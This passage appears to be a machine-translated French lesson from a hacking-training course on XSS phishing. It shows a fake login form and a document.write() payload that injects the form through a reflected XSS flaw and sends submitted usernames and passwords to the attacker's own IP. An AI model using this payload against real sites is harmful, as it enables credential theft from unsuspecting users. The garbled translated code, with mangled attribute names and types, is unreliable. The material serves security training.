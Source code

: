 Code: HTML

```
<h3> Veuillez vous connecter pour continuer </h3>
<Form Action = http: // our_ip>
     <input type = "username" name = "username" placeholder = "username">
     <entrée type = "mot de passe" name = "mot de passe" placeholder = "mot de passe">
     <input type = "soumi" name = "soumi" value = "login">
</ form>

```

Dans le code HTML ci-dessus, `our_ip` est l'IP de notre machine virtuelle, que nous pouvons trouver avec la commande (` ip a`) sous `tun0`. Nous écouterons plus tard sur cette IP pour récupérer les informations d'identification envoyées du formulaire. Le formulaire de connexion doit ressembler à la suivante:

Code: HTML

```
<div>
<h3> Veuillez vous connecter pour continuer </h3>
<input type = "text" placeholder = "username">
<input type = "text" placeholder = "mot de passe">
<input type = "soumi" value = "login">
<br> <br>
</div>

```

Ensuite, nous devons préparer notre code XSS et le tester sur le formulaire vulnérable. Pour écrire du code HTML sur la page vulnérable, nous pouvons utiliser la fonction JavaScript `document.write ()`, et l'utiliser dans la charge utile XSS que nous avons trouvée plus tôt dans l'étape de découverte XSS. Une fois que nous minifons notre code HTML en une seule ligne et l'ajoutons à l'intérieur de la fonction «écriture», le code JavaScript final devrait être le suivant:

Code: JavaScript

```
document.write ('<h3> Veuillez vous connecter pour continuer </h3> <formulaire Action = http: // our_ip> <input type = "username" name = "username" placeholder = "username"> <input type = "mot de passe "name =" mot de passe "placeholder =" mot de passe "> <input type =" soumide "name =" soumi "value =" login "> </ form> ');
```

Nous pouvons maintenant injecter ce code JavaScript en utilisant notre charge utile XSS (c'est-à-dire au lieu d'exécuter le code JavaScript `alert (window.origin). Dans ce cas, nous exploitons une vulnérabilité `` reflétée XSS ', afin que nous puissions copier l'URL et notre charge utile XSS dans ses paramètres, comme nous l'avons fait dans la section «XSS» réfléchie, et la page devrait ressembler à ce qui suit lorsque nous Visitez l'URL malveillante:

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form.jpg)

* * * * *

Nettoyer
-----------

